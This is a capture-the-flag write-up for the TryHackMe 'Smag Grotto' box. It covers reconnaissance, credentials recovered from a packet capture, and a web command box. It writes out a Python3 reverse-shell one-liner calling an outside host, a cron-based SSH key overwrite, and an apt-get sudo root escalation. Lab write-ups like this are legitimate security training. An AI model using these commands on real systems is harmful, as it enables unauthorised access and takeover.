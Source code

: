 # 'Smag Grotto' box writeup

## Smag Grotto is a CTF box written by JakeDoesSec and available on the [TryHackMe platform](https://tryhackme.com)

## Read about [`crontab` service](https://opensource.com/article/17/11/how-use-cron-linux), [apt-get package system tool](https://itsfoss.com/apt-get-linux-guide/) and [APT Privilege Escalation](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/)

![bg](images/background.png?)

## Foothold

+ **We deploy the machine and start with a nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.163.139``

+ **There are 2 services running on default ports: ssh and http**

![1](images/nmap_scan_sg.jpg?)

+ **Visiting the http site, we are welcomed by a big Smag title with a small announce from the developer of the site**

![2](images/site_sg.png?)

+ **Let's perform a gobuster to search some directories on the website.**
**I'm using the `common.txt` wordlist, a default wordlist on kali machines**

``gobuster dir -u http://10.10.163.139/ -w /usr/share/wordlists/dirb/common.txt``

![3](images/dirbuster.jpg?)

+ **We found a mail directory, so let's check it out into the web browser.**
**It seems to be like a mail message left on the website to notify a future migration.**
**The mail was written with the intention to arrive to the admin of the page**

![4](images/mail_page.png?)

+ **Inside the first Network Migration box of the message, we can spot the `dHJhY2Uy.pcap`, a linked file which seems to be a packet data of this network.**
**Let's download that file and go into a Wireshark analysis of this packet.**

![5](images/wiresh_packet.png?)

+ **We can spot a `POST` login request inside the data packet, so let's follow TCP stream into this packet**

![6](images/tcp_stream.png?)

+ **Bingo!**
**We found some credentials in plain text form.**
**Looking in the picture above us, we can see the Host that has been used in the `POST` login request: `development.smag.thm`.**
**If we are trying to access that page, we're having trouble finding that site...**
**But, judging on the mails that the developers shared between them, the website suffered a migration, so let's just try to change our hosts list to override the DNS**

``sudo vim /etc/hosts``

![7](images/hosts.jpg?)

+ **Now, let's try to access the `development.smag.thm/login.php` page so we can use our credentials**

![7](images/login_1.jpg?)

+ **We are welcomed by a big title 'Enter a command' with a box below.**
**I tried some several linux commands like ls, whoami, etc, but i can't see no output.**
**So i've tried to download a file on the box machine with the `wget`, hosting a simple python server on mine, just to check if the commands are available and if it's worth trying a reverse shell.**

![8](images/wget.jpg?)

## User escalation

+ **It's all working, we have the `GET` request so let's move on to a reverse shell, using python3.**
**I've tried with python but not working, because probably on the machine a python3 is installed.**
  **Firstly, listen to the 1234 port**

```console
nc -lvnp 1234
```

```console
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

 **And here it's our shell, connected with the www-data user.**
 **Let's upgrade it to an interactive one.**

```console
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![9](images/entered_2.jpg?)

+ **Let's look into the `crontab` file and understand it.**
**We have a `cron` which tells us that the root user is making an overwriting action every minute through the cat command from the** `jake_id_rsa.pub.backup` **file to the** `authorized_keys` **file of the jake user.**
**This means that if we can modify the `jake_id_rsa.pub.backup` content, we can connect with the jake user on the ssh service.**

![10](images/crontab.jpg?)

 **Luckily, the** `jake_id_rsa.pub.backup` **file has writing permission for every user.**

![11](images/fileperm.jpg?)

+ **Let's copy our public key into the remote box.**

```console
cat /home/kali/.ssh/id_rsa.pub
echo "your_id_rsa.pub" > /opt/.backups/jake_id_rsa.pub.backup
```

![12](images/copy_id.jpg?)

![13](images/copy_id_2.jpg?)

+ **Now, we have overwritten the public ssh and we can use public key authentication.**
**Voila, there's our user flag**

![13](images/user_flag.jpg?)

## Root Escalation

+ **Running the** ``sudo -l`` **command, we can see the allowed commands for the user jake.**
**He has a powerful accessible command to run: apt-get, which is the command-line tool to interact with this packaging system.**

![14](images/sudola.jpg?)

+ **Exploiting the apt-get vulnerability, we can use the tool to gain a root access, using the update option and simultaneously invoking the bash into the root account**

``sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/bash``

 ![15](images/root_flag_1.jpg?)

 **So here we got the root flag.**
 **It was a funny box with an interesting vulnerability based on apt tool, a very useful box for beginners.**
